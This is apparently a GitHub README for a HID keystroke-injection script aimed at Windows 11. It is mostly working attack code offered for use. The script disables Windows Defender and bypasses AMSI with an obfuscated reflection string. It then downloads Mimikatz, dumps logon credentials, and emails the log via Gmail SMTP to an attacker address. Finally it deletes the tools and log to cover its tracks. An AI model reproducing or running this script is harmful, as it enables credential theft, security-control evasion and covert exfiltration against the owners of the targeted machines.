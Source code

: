 # Credentials - Mimikatz + Send Result to Mail

## Description

This is a simple HIDScript that disable windows defender, run Mimikatz (logonPasswords) and save the result to log.
Then it send to your mail the log as attachment, delete Mimikatz and log files and finally re-enable windows defender.

## Requirement

1. First note this script has been created and tested under Windows 11 Build 22000.

2. I used a QWERTZ keyboard to do this ("ch" layout), so you may need to change that.

3. Change the sender e-mail/password and set the attacker email that will receive the mail with the Mimikatz log attached to.

4. To deliver the mail, you need first to allow less secure app to access you'r Gmail account. To do this you need first to disable 2FA, then enable less secure app (<a href="https://myaccount.google.com/lesssecureapps">direct link</a>). I suggest to create a Gmail account only for this purpose, instead of using you'r personal account if you are using Gmail. As you need to disable 2FA it expose you'r account.

## Code

```bash
layout("ch")
press("GUI r")
delay(1000)
type("windowsdefender:")
press("ENTER")
delay(1000)
press("ENTER")
delay(1000)
press("TAB")
press("TAB")
press("TAB")
press("TAB")
press("ENTER")
delay(1000)
press("SPACE")
delay(1000)
press("LEFT")
delay(1000)
press("ENTER")
delay(1000)
press("GUI r")
delay(200)
type("powershell.exe start-process powershell -verb runas")
press("ENTER")
delay(1500)
press("LEFT")
press("ENTER")
delay(1000)
type("[Ref].Assembly.GetType('System.Management.Automation.Amsi'+[char]85+'tils').GetField('ams'+[char]105+'InitFailed','NonPublic,Static').SetValue($null,$true)")
press("ENTER")
delay(1000)
type("(New-Object System.Net.WebClient).DownloadFile('https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.zip','C:\\mimikatz_trunk.zip')")
press("ENTER")
delay(1000)
type("cd /")
press("ENTER")
delay(500)
type("mkdir mimi")
press("ENTER")
delay(500)
type("Expand-Archive -Path mimikatz_trunk.zip -DestinationPath C:\\mimi")
press("ENTER")
delay(1500)
type("cd mimi")
press("ENTER")
delay(500)
type("cd x64")
press("ENTER")
delay(500)
type(".\\mimikatz.exe")
press("ENTER")
delay(1000)
type("log log.txt")
press("ENTER")
delay(1000)
type("privilege::debug")
press("ENTER")
delay(1000)
type("sekurlsa::logonPasswords")
press("ENTER")
delay(1000)
type("$emailSmtpServer = 'smtp.gmail.com';$emailSmtpServerPort = '587';$emailSmtpUser = 'sender@gmail.com';$emailSmtpPass = 'YourSuperPassword';$emailMessage = New-Object System.Net.Mail.MailMessage;$emailMessage.From = 'HIDScript LogonPassword Mimikatz <sender@gmail.com>';$emailMessage.To.Add('attacker@protonmail.com');$emailMessage.Body = 'W00tW00t, You received one log file, see attachment!';$SMTPClient = New-Object System.Net.Mail.SmtpClient( $emailSmtpServer , $emailSmtpServerPort );$SMTPClient.EnableSsl = $true;$SMTPClient.Credentials = New-Object System.Net.NetworkCredential( $emailSmtpUser , $emailSmtpPass );$attachment = 'C:\\mimi\\x64\\log.txt';$emailMessage.Attachments.Add($attachment);$SMTPClient.Send($emailMessage)")
press("ENTER")
delay(2000)
type("cd /")
press("ENTER")
type("rmdir mimi")
press("ENTER")
delay(1000)
type("T")
press("ENTER")
delay(1000)
type("del mimikatz_trunk.zip")
press("ENTER")
delay(500)
type("exit")
press("ENTER")
delay(1000)
press("SPACE")
delay(1000)
press("ALT F4")

```
